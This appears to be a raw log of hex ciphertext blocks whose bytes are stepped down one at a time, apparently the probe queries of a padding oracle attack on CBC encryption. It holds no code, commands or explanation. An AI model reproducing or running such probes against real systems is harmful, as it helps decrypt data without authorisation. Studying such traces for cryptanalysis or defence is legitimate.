00e3a0a546d0f83fa60e467d39dbb3b854f5b5f8b5bf079cb364e3b6ec0cf813
00e2a0a546d0f83fa60e467d39dbb3b854f5b5f8b5bf079cb364e3b6ec0cf813
00e1a0a546d0f83fa60e467d39dbb3b854f5b5f8b5bf079cb364e3b6ec0cf813
00e0a0a546d0f83fa60e467d39dbb3b854f5b5f8b5bf079cb364e3b6ec0cf813
00dfa0a546d0f83fa60e467d39dbb3b854f5b5f8b5bf079cb364e3b6ec0cf813
00dea0a546d0f83fa60e467d39dbb3b854f5b5f8b5bf079cb364e3b6ec0cf813
00dda0a546d0f83fa60e467d39dbb3b854f5b5f8b5bf079cb364e3b6ec0cf813
00dca0a546d0f83fa60e467d39dbb3b854f5b5f8b5bf079cb364e3b6ec0cf813
00dba0a546d0f83fa60e467d39dbb3b854f5b5f8b5bf079cb364e3b6ec0cf813
00daa0a546d0f83fa60e467d39dbb3b854f5b5f8b5bf079cb364e3b6ec0cf813
00d9a0a546d0f83fa60e467d39dbb3b854f5b5f8b5bf079cb364e3b6ec0cf813
00d8a0a546d0f83fa60e467d39dbb3b854f5b5f8b5bf079cb364e3b6ec0cf813
00d7a0a546d0f83fa60e467d39dbb3b854f5b5f8b5bf079cb364e3b6ec0cf813
00d6a0a546d0f83fa60e467d39dbb3b854f5b5f8b5bf079cb364e3b6ec0cf813
ffc9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
fec9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
fdc9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
fcc9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
fbc9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
fac9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
f9c9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
f8c9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
f7c9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
f6c9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
f5c9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
f4c9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
f3c9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
f2c9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
f1c9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
f0c9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
efc9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
eec9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
edc9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
ecc9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
ebc9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
eac9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
e9c9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
e8c9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
e7c9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
e6c9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
e5c9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
e4c9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
e3c9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
e2c9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
e1c9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
e0c9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
dfc9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
dec9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
ddc9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
dcc9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
dbc9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
dac9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
d9c9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
d8c9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
d7c9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
d6c9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
d5c9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
d4c9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
d3c9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
d2c9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
d1c9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
d0c9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
cfc9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
cec9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
cdc9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
ccc9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
cbc9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
cac9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
c9c9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
c8c9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
c7c9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
c6c9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
c5c9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
c4c9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
c3c9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
c2c9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
c1c9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
c0c9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
bfc9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
bec9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
bdc9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
bcc9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
bbc9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
bac9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
b9c9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
b8c9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
b7c9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
b6c9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
b5c9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
b4c9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
b3c9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
b2c9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
b1c9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
b0c9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
afc9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
aec9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
adc9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
acc9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
abc9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
aac9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
a9c9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
a8c9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
a7c9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
a6c9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
a5c9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
a4c9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
a3c9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
a2c9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
a1c9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
a0c9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
9fc9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
9ec9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
9dc9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
9cc9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
9bc9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
9ac9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
99c9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
98c9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
97c9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
96c9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
95c9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
94c9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
93c9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
92c9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
91c9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
90c9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
8fc9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
8ec9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
8dc9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
8cc9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
8bc9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
8ac9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
89c9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
88c9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
87c9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
86c9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
85c9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
84c9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
83c9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
82c9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
81c9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
80c9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
7fc9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
7ec9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
7dc9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
7cc9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
7bc9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
7ac9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
79c9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
78c9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
77c9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
76c9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
75c9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
74c9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
73c9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
72c9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
71c9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
70c9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
6fc9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
6ec9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
6dc9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
6cc9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
6bc9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
6ac9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
69c9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
68c9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
67c9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
66c9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
65c9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
64c9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
63c9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
62c9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
61c9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
60c9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
5fc9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
5ec9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
5dc9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
5cc9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
5bc9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
5ac9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
59c9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
58c9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
57c9bfba59cfe720b911596226c4aca754f5b5f8b5bf079cb364e3b6ec0cf813
000000000000000000000000000000ff77eb9f8779eeda009e2365505fa7e3d6
000000000000000000000000000000fe77eb9f8779eeda009e2365505fa7e3d6
000000000000000000000000000000fd77eb9f8779eeda009e2365505fa7e3d6
000000000000000000000000000000fc77eb9f8779eeda009e2365505fa7e3d6
000000000000000000000000000000fb77eb9f8779eeda009e2365505fa7e3d6
000000000000000000000000000000fa77eb9f8779eeda009e2365505fa7e3d6
000000000000000000000000000000f977eb9f8779eeda009e2365505fa7e3d6
000000000000000000000000000000f877eb9f8779eeda009e2365505fa7e3d6
000000000000000000000000000000f777eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000000fff477eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000000fef477eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000000fdf477eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000000fcf477eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000000fbf477eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000000faf477eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000000f9f477eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000000f8f477eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000000f7f477eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000000f6f477eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000000f5f477eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000000f4f477eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000000f3f477eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000000f2f477eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000000f1f477eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000000f0f477eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000000eff477eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000000eef477eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000000edf477eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000000ecf477eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000000ebf477eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000000eaf477eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000000e9f477eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000000e8f477eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000000e7f477eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000000e6f477eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000000e5f477eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000000e4f477eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000000e3f477eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000000e2f477eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000000e1f477eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000000e0f477eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000000dff477eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000000def477eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000000ddf477eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000000dcf477eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000000dbf477eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000000daf477eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000000d9f477eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000000d8f477eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000000d7f477eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000000d6f477eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000000d5f477eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000000d4f477eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000000d3f477eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000000d2f477eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000000d1f477eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000000d0f477eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000000cff477eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000000cef477eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000000cdf477eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000000ccf477eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000000cbf477eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000000caf477eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000000c9f477eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000000c8f477eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000000c7f477eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000000c6f477eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000000c5f477eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000000c4f477eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000000c3f477eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000000c2f477eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000000c1f477eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000000c0f477eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000000bff477eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000000bef477eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000000bdf477eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000000bcf477eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000000bbf477eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000000baf477eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000000b9f477eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000000b8f477eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000000b7f477eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000000b6f477eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000000b5f477eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000000b4f477eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000000b3f477eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000000b2f477eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000000b1f477eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000000b0f477eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000000aff477eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000000aef477eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000000adf477eb9f8779eeda009e2365505fa7e3d6
0000000000000000000000000000acf477eb9f8779eeda009e2365505fa7e3d6
00000000000000000000000000ffadf577eb9f8779eeda009e2365505fa7e3d6
00000000000000000000000000feadf577eb9f8779eeda009e2365505fa7e3d6
00000000000000000000000000fdadf577eb9f8779eeda009e2365505fa7e3d6
00000000000000000000000000fcadf577eb9f8779eeda009e2365505fa7e3d6
00000000000000000000000000fbadf577eb9f8779eeda009e2365505fa7e3d6
00000000000000000000000000faadf577eb9f8779eeda009e2365505fa7e3d6
00000000000000000000000000f9adf577eb9f8779eeda009e2365505fa7e3d6
00000000000000000000000000f8adf577eb9f8779eeda009e2365505fa7e3d6
00000000000000000000000000f7adf577eb9f8779eeda009e2365505fa7e3d6
00000000000000000000000000f6adf577eb9f8779eeda009e2365505fa7e3d6
00000000000000000000000000f5adf577eb9f8779eeda009e2365505fa7e3d6
00000000000000000000000000f4adf577eb9f8779eeda009e2365505fa7e3d6
00000000000000000000000000f3adf577eb9f8779eeda009e2365505fa7e3d6
00000000000000000000000000f2adf577eb9f8779eeda009e2365505fa7e3d6
00000000000000000000000000f1adf577eb9f8779eeda009e2365505fa7e3d6
00000000000000000000000000f0adf577eb9f8779eeda009e2365505fa7e3d6
00000000000000000000000000efadf577eb9f8779eeda009e2365505fa7e3d6
00000000000000000000000000eeadf577eb9f8779eeda009e2365505fa7e3d6
00000000000000000000000000edadf577eb9f8779eeda009e2365505fa7e3d6
00000000000000000000000000ecadf577eb9f8779eeda009e2365505fa7e3d6
00000000000000000000000000ebadf577eb9f8779eeda009e2365505fa7e3d6
00000000000000000000000000eaadf577eb9f8779eeda009e2365505fa7e3d6
00000000000000000000000000e9adf577eb9f8779eeda009e2365505fa7e3d6
00000000000000000000000000e8adf577eb9f8779eeda009e2365505fa7e3d6
00000000000000000000000000e7adf577eb9f8779eeda009e2365505fa7e3d6
00000000000000000000000000e6adf577eb9f8779eeda009e2365505fa7e3d6
00000000000000000000000000e5adf577eb9f8779eeda009e2365505fa7e3d6
00000000000000000000000000e4adf577eb9f8779eeda009e2365505fa7e3d6
00000000000000000000000000e3adf577eb9f8779eeda009e2365505fa7e3d6
00000000000000000000000000e2adf577eb9f8779eeda009e2365505fa7e3d6
00000000000000000000000000e1adf577eb9f8779eeda009e2365505fa7e3d6
00000000000000000000000000e0adf577eb9f8779eeda009e2365505fa7e3d6
00000000000000000000000000dfadf577eb9f8779eeda009e2365505fa7e3d6
00000000000000000000000000deadf577eb9f8779eeda009e2365505fa7e3d6
00000000000000000000000000ddadf577eb9f8779eeda009e2365505fa7e3d6
00000000000000000000000000dcadf577eb9f8779eeda009e2365505fa7e3d6
00000000000000000000000000dbadf577eb9f8779eeda009e2365505fa7e3d6
00000000000000000000000000daadf577eb9f8779eeda009e2365505fa7e3d6
00000000000000000000000000d9adf577eb9f8779eeda009e2365505fa7e3d6
00000000000000000000000000d8adf577eb9f8779eeda009e2365505fa7e3d6
00000000000000000000000000d7adf577eb9f8779eeda009e2365505fa7e3d6
00000000000000000000000000d6adf577eb9f8779eeda009e2365505fa7e3d6
00000000000000000000000000d5adf577eb9f8779eeda009e2365505fa7e3d6
00000000000000000000000000d4adf577eb9f8779eeda009e2365505fa7e3d6
00000000000000000000000000d3adf577eb9f8779eeda009e2365505fa7e3d6
00000000000000000000000000d2adf577eb9f8779eeda009e2365505fa7e3d6
00000000000000000000000000d1adf577eb9f8779eeda009e2365505fa7e3d6
00000000000000000000000000d0adf577eb9f8779eeda009e2365505fa7e3d6
00000000000000000000000000cfadf577eb9f8779eeda009e2365505fa7e3d6
00000000000000000000000000ceadf577eb9f8779eeda009e2365505fa7e3d6
00000000000000000000000000cdadf577eb9f8779eeda009e2365505fa7e3d6
00000000000000000000000000ccadf577eb9f8779eeda009e2365505fa7e3d6
00000000000000000000000000cbadf577eb9f8779eeda009e2365505fa7e3d6
00000000000000000000000000caadf577eb9f8779eeda009e2365505fa7e3d6
00000000000000000000000000c9adf577eb9f8779eeda009e2365505fa7e3d6
00000000000000000000000000c8adf577eb9f8779eeda009e2365505fa7e3d6
00000000000000000000000000c7adf577eb9f8779eeda009e2365505fa7e3d6
00000000000000000000000000c6adf577eb9f8779eeda009e2365505fa7e3d6
00000000000000000000000000c5adf577eb9f8779eeda009e2365505fa7e3d6
00000000000000000000000000c4adf577eb9f8779eeda009e2365505fa7e3d6
00000000000000000000000000c3adf577eb9f8779eeda009e2365505fa7e3d6
00000000000000000000000000c2adf577eb9f8779eeda009e2365505fa7e3d6
00000000000000000000000000c1adf577eb9f8779eeda009e2365505fa7e3d6
00000000000000000000000000c0adf577eb9f8779eeda009e2365505fa7e3d6
00000000000000000000000000bfadf577eb9f8779eeda009e2365505fa7e3d6
00000000000000000000000000beadf577eb9f8779eeda009e2365505fa7e3d6
00000000000000000000000000bdadf577eb9f8779eeda009e2365505fa7e3d6
00000000000000000000000000bcadf577eb9f8779eeda009e2365505fa7e3d6
00000000000000000000000000bbadf577eb9f8779eeda009e2365505fa7e3d6
00000000000000000000000000baadf577eb9f8779eeda009e2365505fa7e3d6
00000000000000000000000000b9adf577eb9f8779eeda009e2365505fa7e3d6
00000000000000000000000000b8adf577eb9f8779eeda009e2365505fa7e3d6
00000000000000000000000000b7adf577eb9f8779eeda009e2365505fa7e3d6
00000000000000000000000000b6adf577eb9f8779eeda009e2365505fa7e3d6
00000000000000000000000000b5adf577eb9f8779eeda009e2365505fa7e3d6
00000000000000000000000000b4adf577eb9f8779eeda009e2365505fa7e3d6
00000000000000000000000000b3adf577eb9f8779eeda009e2365505fa7e3d6
00000000000000000000000000b2adf577eb9f8779eeda009e2365505fa7e3d6
00000000000000000000000000b1adf577eb9f8779eeda009e2365505fa7e3d6
00000000000000000000000000b0adf577eb9f8779eeda009e2365505fa7e3d6
00000000000000000000000000afadf577eb9f8779eeda009e2365505fa7e3d6
00000000000000000000000000aeadf577eb9f8779eeda009e2365505fa7e3d6
00000000000000000000000000adadf577eb9f8779eeda009e2365505fa7e3d6
00000000000000000000000000acadf577eb9f8779eeda009e2365505fa7e3d6
00000000000000000000000000abadf577eb9f8779eeda009e2365505fa7e3d6
00000000000000000000000000aaadf577eb9f8779eeda009e2365505fa7e3d6
00000000000000000000000000a9adf577eb9f8779eeda009e2365505fa7e3d6
00000000000000000000000000a8adf577eb9f8779eeda009e2365505fa7e3d6
00000000000000000000000000a7adf577eb9f8779eeda009e2365505fa7e3d6
00000000000000000000000000a6adf577eb9f8779eeda009e2365505fa7e3d6
00000000000000000000000000a5adf577eb9f8779eeda009e2365505fa7e3d6
